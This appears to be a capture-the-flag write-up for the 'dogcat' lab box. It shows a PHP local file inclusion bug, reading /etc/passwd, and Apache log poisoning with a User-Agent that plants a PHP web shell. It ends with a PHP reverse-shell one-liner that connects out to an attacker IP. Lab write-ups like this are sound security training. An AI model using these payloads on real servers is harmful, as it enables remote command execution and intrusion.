 #

## Foothold
Bypass the filter with `PayLoadsAllTheThings`
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter)
We get the `dog.php` and `cat.php`. Tried to get the `index.php`

```html
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```
We noticed that the `ext` variable is default `.php`. But we can set it.
Try to get `/etc/passwd`
![etc.passwd](img/etc.passwd.png)

## LFI

i am using `seclist` with `LFI` for `Linux`.
![intruder2](img/intruder2.png)
A lot of files, we filter the errors one.
![intruder3](img/intruder3.png)

Well. we can access the apache2 log.
![apache2 log](img/apache2.log.png)

- Flag1
```burp
GET /?view=dog../../../../../../var/log/apache2/access.log&cmd=cat%20flag.php&ext= HTTP/1.1

Host: 10.10.191.127

User-Agent: <?php system($_GET['cmd']); ?>

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Referer: http://10.10.191.127/

Upgrade-Insecure-Requests: 1
```


php -r '$sock=fsockopen("10.17.7.26", 1234);exec("/bin/bash -i <&3 >&3 2>&3");'
